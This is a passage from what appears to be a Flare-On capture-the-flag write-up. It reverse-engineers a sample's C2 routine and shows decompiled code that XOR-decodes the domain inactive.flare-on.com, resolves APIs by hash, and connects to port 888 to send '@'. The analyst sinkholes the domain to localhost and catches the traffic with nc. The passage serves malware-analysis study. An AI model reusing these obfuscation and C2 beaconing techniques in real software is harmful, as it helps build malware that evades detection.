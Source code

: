 I’ll come back to `decrypt_flag_sortof` and `descramble_flag?` as well.

#### C2

The `init_c2` function (at 0x1f80) calls `WSAStartup` and then calls a
function I named `c2` (at 0x2070). This function creates a TCP socket (with
`socket`) and then builds the string `inactive.flare-on.com`:

    
    
        format_string_sdots[0] = 0x38b2f282;
        format_string_sdots[1] = 0x1d9c81d4;
        j = 0;
        i = j;
        do {
          format_string_sdots[i] = format_string_sdots[i] ^ 0x1d9c81a7;
          i = i + 1;
        } while (i < 2);
        sprintf(inactive,format_string_sdots,(longlong)&param_1[0x25].y + 1,param_1[0x31])
    

Next it resolves and connects to that domain on TCP 888:

    
    
                        /* gethostbyname */
        loaded_function = (code *)load_by_hash((char *)0x0,4,0xf44318c6);
        hostent = (hostent *)(*loaded_function)();
        if (hostent != (hostent *)0x0) {
          getiplist(ip,(undefined8 *)*hostent->h_addr_list,(longlong)hostent->h_length);
                        /* htons */
          loaded_function = (code *)load_by_hash((char *)0x0,4,0x8e9bf775);
          port_network = (*loaded_function)();
                        /* connect */
          loaded_function = (code *)load_by_hash((char *)0x0,4,0xedd8fe8a);
          res = (*loaded_function)(sockd,&local_80,0x10);
    

I’ll add the domain to `C:\windows\system32\drivers\etc\hosts` to resolve to
127.0.0.1 so it connects to me. I’ll also start `nc.exe` listening on 888.

If it connects, it sends a `@`:

    
    
            local_c8 = 0;
            local_c4 = L'@';
                        /* lstrlen */
            loaded_function = (code *)load_by_hash((char *)0x0,1,0x2d40b8e6);
            len_str = (*loaded_function)();
            local_c0 = 0;
            local_bc = L'@';
                        /* send */
            loaded_function = (code *)load_by_hash((char *)0x0,4,0xe797764);
            res = (*loaded_function)(sockd,&local_bc,len_str,0);
    

Which then arrives at `nc`:
